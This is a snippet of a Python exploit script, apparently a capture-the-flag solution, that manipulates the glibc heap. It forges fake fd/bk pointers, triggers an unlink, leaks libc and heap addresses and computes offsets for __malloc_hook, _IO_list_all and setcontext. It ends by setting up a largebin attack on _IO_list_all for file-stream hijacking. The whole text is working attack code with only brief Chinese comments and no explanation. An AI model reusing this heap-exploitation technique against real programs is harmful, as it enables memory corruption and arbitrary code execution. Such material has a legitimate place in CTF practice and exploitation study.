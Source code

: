 ```python
add(0x418) #2
add(0x428) #3
add(0x418) #5

# 下面构造 fack fd 
delete(5)
delete(2)
add(0x418 , 'a'*9) #2
add(0x418) #5

# 下面构造 fack bk

delete(5)
delete(3)

add(0x9f8) #3
add(0x428 , 'a') #5
add(0x418) #7

# 下面进行 unlink
add(0x408, p64(0) + p64(0x411)) #8
edit(6, 'a' * 0x410 + p64(0x210 +0x430 + 0x420 + 0x420 + 0x20 ))
delete(3)

add(0x438 , flat(0 , 0 ,0 , 0x421)) #3
add(0x1600) #9

show(4)
__malloc_hook = l64() - 1644 - 0x40 - 4
libc.address = __malloc_hook - libc.sym['__malloc_hook']
_environ = libc.sym['_environ']
mp_ = libc.address + 0x1e3280
_IO_list_all = libc.sym['_IO_list_all']
_IO_str_jumps = libc.address + 0x1e5580
_IO_file_jumps = libc.address + 0x1e54c0
_IO_helper_jumps = libc.address + 0x1e48c0
setcontext = libc.sym['setcontext'] + 61

show(5)
heap_base = u64(p.recv(6).ljust( 8 , '\x00')) - 0x2b0

ptr_list = 0x4160
lg('__malloc_hook' , __malloc_hook)
lg('heap_base',heap_base)

# ptr_list = $rebase(0x000000000004160)

add(0x1458 , flat('\x00'*0x208 , 0x431 , '\x00'*0x428 , 0x421 , '\x00'*0x418 , 0xa01) )

delete(4)
delete(5)

add(0x1458  )
add(0x448)

delete(4)
add(0x1458 , flat('\x00'*0x208 , 0x431 , __malloc_hook + 0x460,__malloc_hook + 0x460 , 0 , _IO_list_all - 0x20 ) )

delete(2)
add(0x448)
add(0x418)

```